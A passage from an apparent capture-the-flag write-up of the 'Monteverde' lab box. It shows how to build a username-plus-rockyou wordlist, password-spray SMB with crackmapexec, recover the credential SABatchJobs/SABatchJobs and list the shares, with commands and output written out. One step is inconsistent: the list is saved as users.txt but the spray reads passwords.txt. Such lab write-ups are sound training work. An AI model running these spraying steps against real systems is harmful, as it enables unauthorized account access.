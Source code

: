To password spray, I usually start with a small wordlist then expand if I don't find anything. Here, we'll create a custom wordlist using the smaller rockyou list and the list of users in case some users are using their username as the password:

```
root@kali:~/htb/monteverde# cat << EOF > users.txt
> Guest
> AAD_987d7f2f57d2
> mhope
> SABatchJobs
> svc-ata
> svc-bexec
> svc-netapp
> dgalanos
> roleary
> smorgan
> EOF
root@kali:~/htb/monteverde# cat ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-10.txt >> users.txt
```

Then we'll use crackmapexec to spray the credentials. Another tool like kerbrute could also be used for this since port 88 is open.
```
root@kali:~/htb/monteverde# cme smb 10.10.10.172 -u /root/htb/monteverde/users.txt -p /root/htb/monteverde/passwords.txt | grep -v FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs
```

Here we go, we got a valid account: `SABatchJobs / SABatchJobs`

Checking shares...

```
root@kali:~/htb/monteverde# cme smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

